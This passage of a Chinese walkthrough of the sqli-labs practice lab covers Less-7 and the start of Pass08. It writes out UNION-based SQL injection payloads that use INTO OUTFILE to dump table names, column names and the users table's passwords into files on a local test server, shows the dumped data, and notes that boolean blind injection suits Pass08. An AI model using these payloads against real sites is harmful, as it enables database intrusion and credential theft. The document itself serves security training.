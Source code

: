 浏览器访问http://192.168.31.193/Less-7/1.txt

1	root@localhost	security

 导出表名 

`?id=-1')) union select 1,2,table_name from information_schema.tables where table_schema='security' into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\2.txt" --+`

浏览器访问http://192.168.31.193/Less-7/2.txt

1	2	emails 
1	2	referers 
1	2	uagents 
1	2	users

 导出列名 

`?id=-1')) union select 1,2,column_name from information_schema.columns where table_schema='security' and table_name='users' into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\3.txt" --+`

浏览器访问http://192.168.31.193/Less-7/3.txt

1	2	id 
1	2	username 
1	2	password

 导出数据 

`?id=-1')) union select 1,username,password from users into outfile "E:\\phpstudy_pro\\WWW\\sql.com\\Less-7\\4.txt" --+`

浏览器访问http://192.168.31.193/Less-7/4.txt

> 1	Dumb	Dumb 
> 1	Angelina	I-kill-you 
> 1	Dummy	p@ssword 
> 1	secure	crappy 
> 1	stupid	stupidity 
> 1	superman	genious 
> 1	batman	mob!le 
> 1	admin	admin 
> 1	admin1	admin1 
> 1	admin2	admin2 
> 1	admin3	admin3 
> 1	dhakkan	dumbo 
> 1	admin4	admin4



# Pass08

```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1'`没有报错显示，报错注入不能够实现注入了。
`?id=1`显示You are in...........
&#x20;对和错返回不同的页面回显，可以采用**布尔盲注**的方式， <a name="WUqxX"></a>

